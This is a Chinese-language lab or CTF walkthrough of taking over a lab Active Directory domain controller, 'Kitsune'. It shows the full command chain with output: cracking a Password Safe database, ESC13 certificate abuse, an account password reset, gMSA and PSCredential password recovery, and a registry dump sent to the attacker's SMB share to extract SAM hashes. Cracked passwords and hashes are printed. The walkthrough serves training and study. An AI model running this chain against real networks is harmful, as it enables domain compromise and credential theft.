| ew51JMG0BwTIkOpamuu+AV62925/qySQaOUMhFNrdEyfFfNQHUKI/QcfR63ZAgMB
| AAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG
| 9w0BAQsFAAOCAQEApr55LhhTL9pVZ8HC6siH4gd5cA3aftGXKaosQP/QziPnDWlU
| QBAQKSVpJdeKFxLmxrUytki3JH7OEV8Of6zGT7iUQqM2Rx93cIdCnc8Oi1Hq6VE9
| u/Ycjofql06MrenyApADUKVCw3XtOa6G+UZK57G2YSyPB3FyBcoyCjMtyvTIHhSc
| iYIBlrINJG4z9edJ5HgBx5JWos5fDjM3hXKtAoycEdX74xH8CiUAq96mm2oJzy76
| 26gsUi2YUmPmMb/2oowEEU3YJ0e7v/uOn4eKAUwe8mNoe0GvxhqHdjQayUEO2t+T
| THJFJZXlbO/m2BCu8NwmhjgyoyF4iEzEaRz69g==
|_-----END CERTIFICATE-----
| rdp-ntlm-info:
|   Target_Name: KITSUNE
|   NetBIOS_Domain_Name: KITSUNE
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: kitsune.local
|   DNS_Computer_Name: DC01.kitsune.local
|   Product_Version: 10.0.26100
|_  System_Time: 2026-10-25T04:08:04+00:00
5985/tcp open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        syn-ack ttl 126 .NET Message Framing
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3389-TCP:V=7.99%I=7%D=10/25%Time=6ADD8079%P=aarch64-unknown-linux-g
SF:nu%r(TerminalServerCookie,13,"\x03\0\0\x13\x0e\xd0\0\0\x124\0\x02\?\x08
SF:\0\x02\0\0\0");
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 34005/tcp): CLEAN (Timeout)
|   Check 2 (port 64436/tcp): CLEAN (Timeout)
|   Check 3 (port 25782/udp): CLEAN (Timeout)
|   Check 4 (port 8790/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2026-10-25T04:08:03
|_  start_date: N/A
```
标准的 AD 端口分布, 给出了以下信息:
1. 域名: `kitsune.local`
2. DC 主机名: `DC01.kitsune.local`

## SMB
```sh
┌──(stackcat㉿r1ngz0ps)-[~/Documents/hs/kitsune]
└─$ nxc smb 10.1.36.153 -u guest -p '' --shares
SMB         10.1.36.153     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:kitsune.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.36.153     445    DC01             [+] kitsune.local\guest:
SMB         10.1.36.153     445    DC01             [*] Enumerated shares
SMB         10.1.36.153     445    DC01             Share           Permissions     Remark
SMB         10.1.36.153     445    DC01             -----           -----------     ------
SMB         10.1.36.153     445    DC01             ADMIN$                          Remote Admin
SMB         10.1.36.153     445    DC01             C$                              Default share
SMB         10.1.36.153     445    DC01             Files           READ            Global file share
SMB         10.1.36.153     445    DC01             IPC$            READ            Remote IPC
SMB         10.1.36.153     445    DC01             NETLOGON                        Logon server share
SMB         10.1.36.153     445    DC01             SYSVOL                          Logon server share
```

对 `Files` 有读取权限.
### Files share
```sh
┌──(stackcat㉿r1ngz0ps)-[~/Documents/hs/kitsune]
└─$ smbclient -U kitsune.local/guest%'' \\\\kitsune.local\\Files
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Oct 13 00:08:20 2026
  ..                                DHS        0  Thu Oct 15 06:49:47 2026
  10-11-Calendar_October.pdf          A     3190  Mon Oct 12 22:23:43 2026
  10-11-Financial_Report.pdf          A     4076  Mon Oct 12 22:23:49 2026
  10-11-Timesheet.pdf                 A     3854  Mon Oct 12 22:21:23 2026
  logins.psafe3                       A      840  Mon Oct 12 21:59:03 2026

		12974591 blocks of size 4096. 3508419 blocks available
smb: \> mget *
Get file 10-11-Calendar_October.pdf? yes
getting file \10-11-Calendar_October.pdf of size 3190 as 10-11-Calendar_October.pdf (2.3 KiloBytes/sec) (average 2.3 KiloBytes/sec)
Get file 10-11-Financial_Report.pdf? yes
getting file \10-11-Financial_Report.pdf of size 4076 as 10-11-Financial_Report.pdf (3.0 KiloBytes/sec) (average 2.7 KiloBytes/sec)
Get file 10-11-Timesheet.pdf? yes
getting file \10-11-Timesheet.pdf of size 3854 as 10-11-Timesheet.pdf (2.8 KiloBytes/sec) (average 2.7 KiloBytes/sec)
Get file logins.psafe3? yes
getting file \logins.psafe3 of size 840 as logins.psafe3 (0.6 KiloBytes/sec) (average 2.2 KiloBytes/sec)
smb: \> exit
```

### RidBrute
```sh
cat rid.raw
SMB                      10.1.36.153     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:kitsune.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB                      10.1.36.153     445    DC01             [+] kitsune.local\guest:
SMB                      10.1.36.153     445    DC01             498: KITSUNE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB                      10.1.36.153     445    DC01             500: KITSUNE\Administrator (SidTypeUser)
SMB                      10.1.36.153     445    DC01             501: KITSUNE\Guest (SidTypeUser)
SMB                      10.1.36.153     445    DC01             502: KITSUNE\krbtgt (SidTypeUser)
SMB                      10.1.36.153     445    DC01             512: KITSUNE\Domain Admins (SidTypeGroup)
SMB                      10.1.36.153     445    DC01             513: KITSUNE\Domain Users (SidTypeGroup)
SMB                      10.1.36.153     445    DC01             514: KITSUNE\Domain Guests (SidTypeGroup)
SMB                      10.1.36.153     445    DC01             515: KITSUNE\Domain Computers (SidTypeGroup)
SMB                      10.1.36.153     445    DC01             516: KITSUNE\Domain Controllers (SidTypeGroup)
SMB                      10.1.36.153     445    DC01             517: KITSUNE\Cert Publishers (SidTypeAlias)
SMB                      10.1.36.153     445    DC01             518: KITSUNE\Schema Admins (SidTypeGroup)
SMB                      10.1.36.153     445    DC01             519: KITSUNE\Enterprise Admins (SidTypeGroup)
SMB                      10.1.36.153     445    DC01             520: KITSUNE\Group Policy Creator Owners (SidTypeGroup)
SMB                      10.1.36.153     445    DC01             521: KITSUNE\Read-only Domain Controllers (SidTypeGroup)
SMB                      10.1.36.153     445    DC01             522: KITSUNE\Cloneable Domain Controllers (SidTypeGroup)
SMB                      10.1.36.153     445    DC01             525: KITSUNE\Protected Users (SidTypeGroup)
SMB                      10.1.36.153     445    DC01             526: KITSUNE\Key Admins (SidTypeGroup)
SMB                      10.1.36.153     445    DC01             527: KITSUNE\Enterprise Key Admins (SidTypeGroup)
SMB                      10.1.36.153     445    DC01             528: KITSUNE\Forest Trust Accounts (SidTypeGroup)
SMB                      10.1.36.153     445    DC01             529: KITSUNE\External Trust Accounts (SidTypeGroup)
SMB                      10.1.36.153     445    DC01             553: KITSUNE\RAS and IAS Servers (SidTypeAlias)
SMB                      10.1.36.153     445    DC01             571: KITSUNE\Allowed RODC Password Replication Group (SidTypeAlias)
SMB                      10.1.36.153     445    DC01             572: KITSUNE\Denied RODC Password Replication Group (SidTypeAlias)
SMB                      10.1.36.153     445    DC01             1000: KITSUNE\DC01$ (SidTypeUser)
SMB                      10.1.36.153     445    DC01             1101: KITSUNE\DnsAdmins (SidTypeAlias)
SMB                      10.1.36.153     445    DC01             1102: KITSUNE\DnsUpdateProxy (SidTypeGroup)
SMB                      10.1.36.153     445    DC01             1103: KITSUNE\ranch (SidTypeUser)
SMB                      10.1.36.153     445    DC01             1104: KITSUNE\HelpDesk (SidTypeGroup)
SMB                      10.1.36.153     445    DC01             1105: KITSUNE\schlop (SidTypeUser)
SMB                      10.1.36.153     445    DC01             1106: KITSUNE\pebble (SidTypeUser)
SMB                      10.1.36.153     445    DC01             1107: KITSUNE\ross (SidTypeUser)
SMB                      10.1.36.153     445    DC01             1108: KITSUNE\protagonist (SidTypeUser)
SMB                      10.1.36.153     445    DC01             1601: KITSUNE\IT (SidTypeGroup)
SMB                      10.1.36.153     445    DC01             1602: KITSUNE\svc_gmsa$ (SidTypeUser)
```

# pwsafe db
```sh
┌──(stackcat㉿r1ngz0ps)-[~/Documents/hs/kitsune/smb]
└─$ file logins.psafe3
logins.psafe3: Password Safe V3 database

┌──(stackcat㉿r1ngz0ps)-[~/Documents/hs/kitsune/smb]
└─$ pwsafe2john ./logins.psafe3
login:$pwsafe$*3*58bbd8a77bbd30d4db16dfc6ac12b5dcd3b4f353866eb7d76baa3ab987fd1cbf*327680*0432c643c46ef76a77d0a3ee583448604b8f7d0af294f12f10ce9bedecbe1260
```

`password safe` 是一款密码管理器, `.psafe3` 是其数据库文件

```sh
john ./pwsafe --wordlist=/opt/seclists/rockyou.txt --format=pwsafe
Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 128/128 ASIMD 4x])
Cost 1 (iteration count) is 327680 for all loaded hashes
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
hellokitty       (login)
1g 0:00:00:21 DONE (2026-10-25 12:27) 0.04715g/s 48.28p/s 48.28c/s 48.28C/s 123456..bethany
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```



提取出以下凭据:
1. DuoLogin:`I#zmE{z[n3HM`
2. NetWork:`R@nch2026!`
3. SQL:`a%KlRhqbuRgL`


# Auth as ranch
NetWork 的密码中有 ranch 的标识:

```sh
nxc winrm 10.1.36.153 -u ranch -p 'R@nch2026!'
WINRM       10.1.36.153     5985   DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:kitsune.local)
WINRM       10.1.36.153     5985   DC01             [-] kitsune.local\ranch:R@nch2026!
```
## Renum
### users & passpol
```sh
nxc smb 10.1.36.153 -u ranch -p 'R@nch2026!' --pass-pol
SMB         10.1.36.153     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:kitsune.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.36.153     445    DC01             [+] kitsune.local\ranch:R@nch2026!
SMB         10.1.36.153     445    DC01             [+] Dumping password info for domain: KITSUNE
SMB         10.1.36.153     445    DC01             Minimum password length: 7
SMB         10.1.36.153     445    DC01             Password history length: 24
SMB         10.1.36.153     445    DC01             Maximum password age: 41 days 23 hours 53 minutes
SMB         10.1.36.153     445    DC01
SMB         10.1.36.153     445    DC01             Password Complexity Flags: 000000
SMB         10.1.36.153     445    DC01                 Domain Refuse Password Change: 0
SMB         10.1.36.153     445    DC01                 Domain Password Store Cleartext: 0
SMB         10.1.36.153     445    DC01                 Domain Password Lockout Admins: 0
SMB         10.1.36.153     445    DC01                 Domain Password No Clear Change: 0
SMB         10.1.36.153     445    DC01                 Domain Password No Anon Change: 0
SMB         10.1.36.153     445    DC01                 Domain Password Complex: 0
SMB         10.1.36.153     445    DC01
SMB         10.1.36.153     445    DC01             Minimum password age: 1 day 4 minutes
SMB         10.1.36.153     445    DC01             Reset Account Lockout Counter: 10 minutes
SMB         10.1.36.153     445    DC01             Locked Account Duration: 10 minutes
SMB         10.1.36.153     445    DC01             Account Lockout Threshold: None
SMB         10.1.36.153     445    DC01             Forced Log off Time: Not Set
```

用户情况
```sh
 nxc smb 10.1.36.153 -u ranch -p 'R@nch2026!' --users
SMB         10.1.36.153     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:kitsune.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.36.153     445    DC01             [+] kitsune.local\ranch:R@nch2026!
SMB         10.1.36.153     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.1.36.153     445    DC01             Administrator                 2026-10-12 20:49:49 3       Built-in account for administering the computer/domain
SMB         10.1.36.153     445    DC01             Guest                         <never>             3       Built-in account for guest access to the computer/domain
SMB         10.1.36.153     445    DC01             krbtgt                        2026-10-12 08:21:41 2       Key Distribution Center Service Account
SMB         10.1.36.153     445    DC01             ranch                         2026-10-12 20:49:29 0
SMB         10.1.36.153     445    DC01             schlop                        2026-10-18 04:01:44 1       schlop show
SMB         10.1.36.153     445    DC01             pebble                        2026-10-13 02:36:32 1
SMB         10.1.36.153     445    DC01             ross                          2026-10-13 00:36:27 1
SMB         10.1.36.153     445    DC01             protagonist                   2026-10-13 00:37:06 1
SMB         10.1.36.153     445    DC01             [*] Enumerated 8 local users: KITSUNE
```

## bloodhound

域内开启了 ADCS, `ranch` 可以注册一些证书模版

# ADCS as ranch
ADCS 的枚举:
```json
{
  "Certificate Authorities": {
    "0": {
      "CA Name": "kitsune-DC01-CA",
      "DNS Name": "DC01.kitsune.local",
      "Certificate Subject": "CN=kitsune-DC01-CA, DC=kitsune, DC=local",
      "Certificate Serial Number": "23E87814E94E648848405CFD9514BD14",
      "Certificate Validity Start": "2026-10-12 21:14:31+00:00",
      "Certificate Validity End": "2125-10-12 21:24:31+00:00",
      "Web Enrollment": {
        "http": {
          "enabled": false
        },
        "https": {
          "enabled": false,
          "channel_binding": null
        }
      },
      "User Specified SAN": "Disabled",
      "Request Disposition": "Issue",
      "Enforce Encryption for Requests": "Enabled",
      "Active Policy": "CertificateAuthority_MicrosoftDefault.Policy",
      "Permissions": {
        "Owner": "KITSUNE.LOCAL\\Administrators",
        "Access Rights": {
          "1": [
            "KITSUNE.LOCAL\\Administrators",
            "KITSUNE.LOCAL\\Domain Admins",
            "KITSUNE.LOCAL\\Enterprise Admins"
          ],
          "2": [
            "KITSUNE.LOCAL\\Administrators",
            "KITSUNE.LOCAL\\Domain Admins",
            "KITSUNE.LOCAL\\Enterprise Admins"
          ],
          "512": [
            "KITSUNE.LOCAL\\Authenticated Users"
          ]
        }
      }
    }
  },
  "Certificate Templates": {
    "0": {
      "Template Name": "Kitsune-User",
      "Display Name": "Kitsune-User",
      "Certificate Authorities": [
        "kitsune-DC01-CA"
      ],
      "Enabled": true,
      "Client Authentication": true,
      "Enrollment Agent": false,
      "Any Purpose": false,
      "Enrollee Supplies Subject": false,
      "Certificate Name Flag": [
        33554432,
        536870912,
        2147483648
      ],
      "Enrollment Flag": [
        1,
        8,
        32
      ],
      "Private Key Flag": [
        16
      ],
      "Extended Key Usage": [
        "Client Authentication",
        "Secure Email",
        "Encrypting File System"
      ],
      "Requires Manager Approval": false,
      "Requires Key Archival": false,
      "Authorized Signatures Required": 0,
      "Schema Version": 2,
      "Validity Period": "99 years",
      "Renewal Period": "6 weeks",
      "Minimum RSA Key Length": 4096,
      "Template Created": "2026-10-12 22:12:00+00:00",
      "Template Last Modified": "2026-10-13 00:52:56+00:00",
      "Issuance Policies": [
        "1.3.6.1.4.1.311.21.8.10863307.14988779.16010669.3757508.10421200.134.6077557.15214621"
      ],
      "Linked Groups": [
        "CN=HelpDesk,CN=Users,DC=kitsune,DC=local"
      ],
      "Permissions": {
        "Enrollment Permissions": {
          "Enrollment Rights": [
            "KITSUNE.LOCAL\\Domain Admins",
            "KITSUNE.LOCAL\\Domain Users",
            "KITSUNE.LOCAL\\Enterprise Admins"
          ]
        },
        "Object Control Permissions": {
          "Owner": "KITSUNE.LOCAL\\Administrator",
          "Full Control Principals": [
            "KITSUNE.LOCAL\\Domain Admins",
            "KITSUNE.LOCAL\\Enterprise Admins"
          ],
          "Write Owner Principals": [
            "KITSUNE.LOCAL\\Domain Admins",
            "KITSUNE.LOCAL\\Enterprise Admins"
          ],
          "Write Dacl Principals": [
            "KITSUNE.LOCAL\\Domain Admins",
            "KITSUNE.LOCAL\\Enterprise Admins"
          ],
          "Write Property Enroll": [
            "KITSUNE.LOCAL\\Domain Admins",
            "KITSUNE.LOCAL\\Domain Users",
            "KITSUNE.LOCAL\\Enterprise Admins"
          ]
        }
      },
      "[+] User Enrollable Principals": [
        "KITSUNE.LOCAL\\Domain Users"
      ],
      "[!] Vulnerabilities": {
        "ESC13": "Template allows client authentication and issuance policy is linked to group 'CN=HelpDesk,CN=Users,DC=kitsune,DC=local'."
      }
    },
  },
<SNIP>
}
```
## ECS13
```json
  "Certificate Templates": {
    "0": {
    <SNIP>
      "Linked Groups": [
        "CN=HelpDesk,CN=Users,DC=kitsune,DC=local"
      ],
    <SNIP>
    }
  }
```
这项设置可以理解为, 这张证书同样具有 `HelpDesk` 组的权限, 详细信息参考 [Specterops ESC13](https://specterops.io/blog/2024/02/14/adcs-esc13-abuse-technique/)

证书设置要求 RSA 公钥最小长度为 `4096`
```sh
┌──(stackcat㉿r1ngz0ps)-[~/Documents/hs/kitsune]
└─$ certipy-ad req -u ranch -p 'R@nch2026!' -ca kitsune-DC01-CA -template kitsune-User -dc-ip 10.1.36.153 -key-size 4096 -debug
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[+] Nameserver: '10.1.36.153'
[+] DC IP: '10.1.36.153'
[+] DC Host: None
[+] Target IP: '10.1.36.153'
[+] Remote Name: '10.1.36.153'
[+] Domain: ''
[+] Username: 'RANCH'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.1.36.153[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.1.36.153[\pipe\cert]
[*] Request ID is 21
[*] Successfully requested certificate
[*] Got certificate with UPN 'ranch@kitsune.local'
[+] Found SID in security extension: 'S-1-5-21-3773590124-4237107295-2360938966-1103'
[*] Certificate object SID is 'S-1-5-21-3773590124-4237107295-2360938966-1103'
[*] Saving certificate and private key to 'ranch.pfx'
[+] Attempting to write data to 'ranch.pfx'
[+] Data written to 'ranch.pfx'
[*] Wrote certificate and private key to 'ranch.pfx'
```
申请  TGT, 这张票据会附带有 `HelpDesk` 组的权限
```sh
┌──(stackcat㉿r1ngz0ps)-[~/Documents/hs/kitsune]
└─$ certipy-ad auth -pfx ./ranch.pfx -username ranch -domain kitsune.local -dc-ip 10.1.36.153
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'ranch@kitsune.local'
[*]     Security Extension SID: 'S-1-5-21-3773590124-4237107295-2360938966-1103'
[*] Using principal: 'ranch@kitsune.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ranch.ccache'
[*] Wrote credential cache to 'ranch.ccache'
[*] Trying to retrieve NT hash for 'ranch'
[*] Got hash for 'ranch@kitsune.local': aad3b435b51404eeaad3b435b51404ee:47d29308446189faa2acec65586963c1
```

有趣的是, `Help Desk` 组拥有对 `schlop` 账户的 `Generic All`:


```sh
┌──(stackcat㉿r1ngz0ps)-[~/Documents/hs/kitsune]
└─$ bloodyad -d kitsune.local -u ranch --host DC01.kitsune.local -k get writable --right WRITE

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=kitsune,DC=local
permission: WRITE

distinguishedName: CN=ranch,CN=Users,DC=kitsune,DC=local
permission: WRITE

distinguishedName: CN=schlop,CN=Users,DC=kitsune,DC=local
permission: WRITE
OWNER: WRITE
DACL: WRITE
┌──(stackcat㉿r1ngz0ps)-[~/Documents/hs/kitsune]
└─$ bloodyad -d kitsune.local -u ranch --host DC01.kitsune.local -k set password schlop '#stackcat%Mux3'
[+] Password changed successfully!
```

# Auth as schlop
`schlop` 位于 `Remote Management User` 组, 可以连接 Winrm:


```powershell
┌──(stackcat㉿r1ngz0ps)-[~/Documents/hs/kitsune]
└─$  ewp  -i DC01.kitsune.local -u schlop -p '#stackcat%Mux3'
          _ _            _
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to 'DC01.kitsune.local:5985' as 'schlop'
evil-winrm-py PS C:\Users\schlop\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

evil-winrm-py PS C:\Users\schlop\Documents> ls


    Directory: C:\Users\schlop\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/13/2026   2:37 AM           1770 networkAuth.cred


evil-winrm-py PS C:\Users\schlop\Documents> cat networkAuth.cred
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">pebble</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000015eb4da53276741952d904a69c440310000000002000000000010660000000100002000000041903d6d7ae4fa86dd56bfe8741f4a15c9e2226d386f88f6aec7f15a5779f3e6000000000e8000000002000020000000b3604d46abd67313eb9a551d3b289c48c922bada4680807c9b7556e0633f19b920000000ae67f87d8559a61c20268cde4649e3538e0c15a7e7153c33e2fc6f7b13c713a44000000064462a2ea8ee6b2bccf09125fa86779431d4ccea0c9a30f2a325239c4199e26982ae745497a01016f90238173a2eb540b47410a39f97e8cb89c8d3ca14bcc8d7</SS>
    </Props>
  </Obj>
</Objs>
```
其为 `PScredential` 对象, 可以从中恢复明文凭据:
```pwsh
evil-winrm-py PS C:\Users\schlop\Documents> (Import-Clixml .\networkAuth.cred).GetNetworkCredential().Password
PebbleIs47!
```
==得到凭据 `pebble`: `PebbleIs47!`==


# Auth as pebble
```sh
┌──(stackcat㉿r1ngz0ps)-[~/Documents/hs/kitsune]
└─$ nxc smb kitsune.local -u pebble -p 'PebbleIs47!'
SMB         10.1.36.153     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:kitsune.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.36.153     445    DC01             [+] kitsune.local\pebble:PebbleIs47!
```
Pebble 从属 IT 组, IT 组对 `svc_gmsa$` 拥有 `Generic All` 权限:


## Gmsa
```sh
┌──(stackcat㉿r1ngz0ps)-[~/Documents/hs/kitsune]
└─$ nxc ldap kitsune.local -u pebble -p 'PebbleIs47!' --gmsa
LDAP        10.1.36.153     389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:kitsune.local) (signing:Enforced) (channel binding:Never)
LDAP        10.1.36.153     389    DC01             [+] kitsune.local\pebble:PebbleIs47!
LDAP        10.1.36.153     389    DC01             [*] Getting GMSA Passwords
LDAP        10.1.36.153     389    DC01             Account: svc_gmsa$            NTLM: 085691c182d60ab1a12466ce7b50d29d     PrincipalsAllowedToReadPassword: IT
```

# Auth as svc_gmsa$
```sh
┌──(stackcat㉿r1ngz0ps)-[~/Documents/hs/kitsune]
└─$ nxc smb kitsune.local -u 'svc_gmsa$ ' -H 085691c182d60ab1a12466ce7b50d29d
SMB         10.1.36.153     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:kitsune.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.36.153     445    DC01             [+] kitsune.local\svc_gmsa$ :085691c182d60ab1a12466ce7b50d29d (Guest)
```
`svc_gmsa$` 从属 Backup Operator 组, 拥有对注册表的读取权限:


## Backup Operator
```sh
┌──(stackcat㉿r1ngz0ps)-[~/Documents/hs/kitsune/reg_svaed]
└─$ smbserver.py -smb2support  saved $(pwd)
Impacket (Exegol fork) v0.14.0.dev0+20260623.162750.a2296a07 - Copyright Fortra, LLC and its affiliated companies

┌──(stackcat㉿r1ngz0ps)-[~/Documents/hs/kitsune/reg_svaed]
└─$ reg.py 'kitsune.local/svc_gmsa$'@DC01.kitsune.local -hashes ':085691c182d60ab1a12466ce7b50d29d' -dc-ip 10.1.36.153 backup -o '\\10.200.111.200\saved'
```

但是由于沟槽的网络原因, 整个 `SYSTEM` 只有不到一半是有数据的, 让 DS 搓了一个手动提取 BootKey 并解密的脚本:
```sh
python3 ./regf_salvage.py -sam ./SAM.save SYSTEM.save
[*] 文件大小          : 19513344 (0x129C000)
[*] 序列号            : seq1=0x1 seq2=0x1 (clean)
[*] 头部 DataSize     : 0x129B000 -> 期望文件大小 19513344
[*] ROOT cell offset  : 0x20   cluster=1
[*] 基块 checksum     : stored=0x789F2965 calc=0x8D0A56A9 MISMATCH (!)
[*] hbin 链           : 676 个, 连续到 0x40E000 <-- 链在此
断开/不完整 (!)
[*] 零字节占比        : 88.2% (17219009/19513344)
[!] 0x40E000 之后共 15261696 字节: 全部为 0 吗? YES
[!] 结论: hive 不完整 —— 文件头声明的 19513344 字节里只有 4251648 字节有数据
    (常见原因: 运行中直接 copy 注册表文件 / reg save 被中断 / 镜像坏道补零 / VHD 稀疏块 / 传输截断)
[*] 收集到 cell 数     : 64014 (其中 nk 记录 11626 个)
[*] impacket 正常路径失败 (ValueError: read length must be non-negative or -1), 转入 nk 扫
描抢救
[*] 扫描 nk 记录定位 Lsa class keys ...
    JD    @0x178B60   class=03a2e193
    Skew1 @0x179250   class=a761cb45
    GBG   @0x178B08   class=3b128901
    Data  @0x178360   class=22dd85d1
[+] bootkey = 3B61A7E10112DD9303CBA2228589D145
[+] 等价于: secretsdump.py -sam <SAM> -system <SYSTEM> -bootkey 3b61a7e10112dd9303cba2228589d145 LOCAL
[*] 解析 SAM: ./SAM.save
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2dffec5d0dda0cbc8bf571471641e001:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

# Auth as Administrator
```powershell
evil-winrm-py PS C:\Users\Administrator> whoami /all

USER INFORMATION
----------------

User Name             SID
===================== =============================================
kitsune\administrator S-1-5-21-3773590124-4237107295-2360938966-500


GROUP INFORMATION
-----------------

Group Name                                     Type             SID                                           Attributes
============================================== ================ ============================================= ===============================================================
Everyone                                       Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                         Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                  Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access        Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access     Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                           Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users               Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                 Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
KITSUNE\Group Policy Creator Owners            Group            S-1-5-21-3773590124-4237107295-2360938966-520 Mandatory group, Enabled by default, Enabled group
KITSUNE\Domain Admins                          Group            S-1-5-21-3773590124-4237107295-2360938966-512 Mandatory group, Enabled by default, Enabled group
KITSUNE\Enterprise Admins                      Group            S-1-5-21-3773590124-4237107295-2360938966-519 Mandatory group, Enabled by default, Enabled group
KITSUNE\Schema Admins                          Group            S-1-5-21-3773590124-4237107295-2360938966-518 Mandatory group, Enabled by default, Enabled group
KITSUNE\Denied RODC Password Replication Group Alias            S-1-5-21-3773590124-4237107295-2360938966-572 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication               Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level           Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

